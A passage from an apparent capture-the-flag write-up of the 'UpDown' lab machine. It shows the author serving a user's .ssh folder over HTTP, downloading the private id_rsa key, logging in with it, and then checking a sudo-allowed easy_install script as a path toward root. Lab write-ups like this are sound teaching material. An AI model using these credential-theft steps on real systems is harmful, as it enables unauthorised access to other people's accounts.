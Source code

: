 Okay so final steps I'll see if I can't snag an ssh key/insert my own to ssh in since this limited shell has a lack of permissions I ought have. 

```bash
developer@updown:/home/developer$ ls .ssh
ls .ssh
authorized_keys
id_rsa
id_rsa.pub
developer@updown:/home/developer$ cd .ssh
cd .ssh
developer@updown:/home/developer/.ssh$ python3 -m http.server 8081
python3 -m http.server 8081
```

```bash
wget http://siteisup.htb:8081/id_rsa

--2024-03-30 18:35:28--  http://siteisup.htb:8081/id_rsa
Resolving siteisup.htb (siteisup.htb)... 10.10.11.177
Connecting to siteisup.htb (siteisup.htb)|10.10.11.177|:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2602 (2.5K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa                        100%[================================================>]   2.54K  --.-KB/s    in 0s 

chmod 600 id_rsa 

ssh developer@updown.htb -i id_rsa 
The authenticity of host 'updown.htb (10.10.11.177)' can't be established.
ECDSA key fingerprint is SHA256:npwXkHj+pLo3LaYR66HNCKEpU/vUoTG03FL41SMlIh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
developer@updown:~$ cat user.txt 
8f7166cb3-----------------------
```

# Root

## easy_install

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:~$ file /usr/local/bin/easy_install
/usr/local/bin/easy_install: Python script, ASCII text executable
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
developer@updown:~$ ls -al /usr/local/bin/easy_install
-rwxr-xr-x 1 root root 229 Aug  1  2022 /usr/local/bin/easy_install
```